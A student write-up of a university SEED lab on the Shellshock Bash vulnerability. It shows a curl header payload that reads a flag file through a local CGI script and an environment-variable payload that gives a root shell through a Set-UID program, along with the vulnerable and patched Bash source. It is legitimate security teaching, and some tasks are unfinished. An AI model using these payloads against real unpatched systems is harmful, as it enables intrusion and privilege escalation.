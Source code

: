 # CSUS CSC154: Extra Credit Lab (Shell Shock Attack)
[Extra Credit Lab PDF](./writeup/pdf/)

# Objective  
On September 24, 2014, a severe vulnerability in Bash was identified. Nicknamed Shellshock, this vulnerability can exploit many systems and be launched either remotely or from a local machine. In this lab, students need to work on this attack, so they can understand the Shellshock vulnerability. The learning objective of this lab is for students to get a first-hand experience on this interesting attack, understand how it works, and think about the lessons that we can get out of this attack.

# Tasks  

## Task 1: Attack CGI programs   

### Setup
First we set up the CGI Program. The first step is to write a very simple CGI program (called myprog.cgi). It simply prints out `Hello World` using shell script.

```bash
#!/bin/bash
echo "Content-type: text/plain"
echo
echo
echo "Hello World"
```

We place the above CGI program into `/usr/lib/cgi-bin`, and set its permissions to `755`. This folder is the default CGI directory for the Apache web server.


![1_create_myprog](./writeup/images/1_create_myprog.png)  
**Figure 1:** Creating and setting permissions for `myprog.cgi`.


Now we can access this CGI program via our web browser by visiting `http://localhost/cgi-bin/myprog.cgi`  
![1_visiting_cgi](./writeup/images/1_visiting_cgi.png)  
**Figure 2:** Visiting the newly created CGI program.  

In order to demonstrate the attack, lets put a `flag.txt` in the `seed` user's `Downloads` folder. It's safe to say that this folder shouldn't be accessible remotely.  
![create_flag](./writeup/images/create_flag.png)  
**Figure 3:** Placing a flag to grab during attack.

### Attack
After the above CGI program is set up, we can launch the Shellshock attack. Our goal is to launch the attack through the URL `http://localhost/cgi-bin/myprog.cgi`, such that we can achieve something that cannot (should not) be achievable by a remote user. 

Using *curl* we can include our exploit in the header variable. In figure 4 below we're using many header fields as examples to show that field doesn't really matter.  

```bash
curl -H "ANYTHING: () { :;}; echo; /bin/cat /home/seed/flag.txt" http://localhost/cgi-bin/myprog.cgi
```

![cgi_exploited](./writeup/images/cgi_exploited.png)  
**Figure 4:** Exploiting CGI with many headers, same payload.


**Get a reverse shell with Kali if there's time**


Breaking down the *curl* command we can see that the request url `http://localhost/cgi-bin/myprog.cgi` is our vulnerable CGI application running locally. The header we've included can be called whatever we want in this case, but its value must contain the payload `() { :;}; echo; /bin/cat /home/seed/flag.txt`, where `(){ :;};` is an empty environmental variable, and where `/bin/cat /home/seed/flag.txt` can be whatever commands we wish to try and execute on the machine.

>Function definitions are exported by encoding them within the environment variable list as variables whose values begin with parentheses ("()") followed by a function definition. The new instance of Bash, upon starting, scans its environment variable list for values in this format and converts them back into internal functions. [4](https://security.stackexchange.com/questions/68448/where-is-bash-shellshock-vulnerability-in-source-code)

The vulnerability appears in the Bash source code [`variables.c`](http://www.cis.syr.edu/~wedu/seed/Labs_12.04/Software/Shellshock/files/variables.c) **line 351** `parse_and_execute (temp_string, name, SEVAL_NONINT|SEVAL_NOHIST);`.

This was patched in the following way.

```c
 	  if (posixly_correct == 0 || legal_identifier (name))
	    parse_and_execute (temp_string, name, SEVAL_NONINT|SEVAL_NOHIST);
``` 

An [explanation of the patch](https://stackoverflow.com/questions/26022248/is-the-behavior-behind-the-shellshock-vulnerability-in-bash-documented-or-at-all) from Stack Overflow
> You can see that in the new code, a flag called SEVAL_ONECMD has been added that tells Bash to only evaluate the first command (that is, the function definition) and SEVAL_FUNCDEF to only allow function definitions.


## Task 2: Attack Set-UID programs

In this task, we use Shellshock to attack Set-UID programs, with a goal to gain the root privilege. Before the attack, we need to first let `/bin/sh` to point to `/bin/bash` (by default, it points to `/bin/dash` in our SEED Ubuntu 12.04 VM). We do this using the following command: `sudo ln -sf /bin/bash /bin/sh`.  
![2_point_sh](./writeup/images/2_point_sh.png)  
**Figure 5:** Pointing `/bin/sh` to `/bin/bash`.
        

### Task 2A  
The following program is a Set-UID program, which simply runs the `/bin/ls -l` command. We compile this code, make it a Set-UID program, and make root be its owner.

```c
#include <stdio.h>
void main() {
    setuid(geteuid()); // make real uid = effective uid.
    system("/bin/ls -l");
}
```

![2_create_setuid_program](./writeup/images/2_create_setuid_program.png)  
**Figure 6:** Preparing the Set-UID program.


Can we use the Shellshock vulnerability to gain the root privilege? ** Yes.**  
All we need to do to exploit this is add an environmental variable with the Shellshock payload inside of it. This can be achieved through via the command `export shock='(){ :; }; bash'`, in which we create an environmental variable called *shock*, add our payload, and after it *bash* gets executed.

![2_root](./writeup/images/2_root.png)  
**Figure 7:** Root shell via Shellshock and Set-UID program. 

When we remove this environmental variable `shock`, the program is no loner exploited to call our root shell, and acts as "intended".  
![2_remove_envvar](./writeup/images/2_remove_envvar.png)  
**Figure 8:** Remove `shock`, environmental variable and program executes normally. 


### Task 2B 

Now, we remove the `setuid(geteuid())` statement from the above program, and repeat your attack.

![2b_fails](./writeup/images/2b_fails.png)  
**Figure 9:** without `setuid(geteuid())` the attack fails.

When that line is removed, the attack fails. The lab states that this about why. 
> In other words, if the real user id and the effective user id are the same, the function defined in the environment variable is evaluated, and thus the Shellshock vulnerability will be exploited. However, if the real user id and the effective user id are not the same, the function defined in the environment variable is not evaluated at all. 

Looking at [`variables.c`](http://www.cis.syr.edu/~wedu/seed/Labs_12.04/Software/Shellshock/files/variables.c) we see a conditional statement on **Line 342** `if (privmode == 0 && read_but_dont_execute == 0 && STREQN ("() {", string, 4))`, which is 
true in this case.

Following down the code we see we see two calls to `strcpy()`. The extra command is executed before `parse_and_execute()` gets called, see below.
```c
  strcpy (temp_string, name);
  temp_string[char_index] = ' ';
  strcpy (temp_string + char_index + 1, string);

  parse_and_execute (temp_string, name, SEVAL_NONINT|SEVAL_NOHIST);
```


Please pinpoint exactly which line causes the difference, and explain why Bash does that.




### Task 2C  
Another way to invoke a program in C is to use `execve()`, instead of `system()`. The following program does exactly what the program in Task 2A does. We compile the code, make it a Set-UID program that is owned by root, and launch our Shellshock attack on this new program.

```c
#include <string.h>
#include <stdio.h>
#include <stdlib.h>

char **environ;

int main() {
    char *argv[3];

    argv[0] = "/bin/ls";
    argv[1] = "-l";
    argv[2] = NULL;

    setuid(geteuid()); // make real uid = effective uid.
    execve(argv[0], argv, environ);
   
    return 0 ;
}
```

![create_setuid_program](./images/writeup/create_setuid_program.png)  
**Figure 10:** Create Set-UID program that uses `execve()`.


## Task 3: Questions
This is a writing task, please answer the following questions in your report:

1. Other than the two scenarios described above (CGI and Set-UID program), is there any other scenario that could be affected by the Shellshock attack? We will give you bonus points if you can identify a significantly different scenario and you have verified the attack using your own experiment.

2. What is the fundamental problem of the Shellshock vulnerability? What can we learn from this
vulnerability?


# References

1. [CVE-2014-6271](https://nvd.nist.gov/vuln/detail/CVE-2014-6271)
2. [OWASP Shellshock](https://www.owasp.org/images/1/1b/Shellshock_-_Tudor_Enache.pdf)
3. [GitHub Repo by OPSXCQ](https://github.com/opsxcq/exploit-CVE-2014-6271)
4. [Security Stack Exchange](https://security.stackexchange.com/questions/68448/where-is-bash-shellshock-vulnerability-in-source-code)
5. [Stack Overflow](https://stackoverflow.com/questions/26022248/is-the-behavior-behind-the-shellshock-vulnerability-in-bash-documented-or-at-all)